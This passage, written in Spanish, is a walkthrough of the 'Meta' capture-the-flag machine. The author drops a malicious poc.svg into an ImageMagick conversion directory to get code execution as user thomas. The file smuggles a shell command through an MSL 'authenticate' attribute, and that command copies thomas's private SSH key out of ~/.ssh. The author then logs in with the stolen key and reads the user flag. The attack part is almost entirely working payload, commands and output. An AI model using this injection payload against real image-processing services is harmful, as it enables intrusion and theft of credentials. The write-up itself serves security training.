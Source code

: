 En la página indican una instrucción; `convert poc.svg loqsea.png` pero no hace falta, convert es un comando/herramienta del propio ImageMagick, al igual que es mogryfy. Esto lo hará por ti el archivo convert_images. Solo hay que pasar el poc.svg al directorio donde se realizan las conversiones(donde se aplica el comando).
```
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
www-data@meta:/dev/shm$ ls -l
```
Y ahora esperar a que funcione.

Guay!, me sale el soyyo:
```
www-data@meta:/dev/shm$ cat soyyo 
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```
Ahora cambiaré el poc.svg por otro comando que me permita convertirme en thomas. En el directorio thomas he visto el directorio .ssh, posiblemente este la id_rsa dentro. Voy a realizar un cat al id_rsa y enviarlo al directorio /dev/shm. Archivo poc.svg:
```
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/id_rsa1`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
```
www-data@meta:/dev/shm$ ls -l
total 16
-rw-r--r-- 1 thomas   thomas   2590 May 18 04:26 id_rsa1
-rw-r--r-- 1 www-data www-data  427 May 18 04:24 poc.svg
-rw-r--r-- 1 thomas   thomas     54 May 18 04:14 soyyo
```
Me traigo la id_rsa a mi terminal local y me conecto por ssh como thomas:
```
❯ touch acceso
❯ chmod 600 acceso
❯ nano acceso
\\ Aquí copio la id_rsa
❯ ssh -i acceso thomas@10.10.11.140
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ whoami
thomas
``` 
Bien!, ya estamos como el usuario thomas y podremos ver la primera flag.
```
thomas@meta:~$ export TERM=xterm
thomas@meta:~$ ls
user.txt
thomas@meta:~$ cat user.txt
3faf3e26117a64849a22025b********
``` 
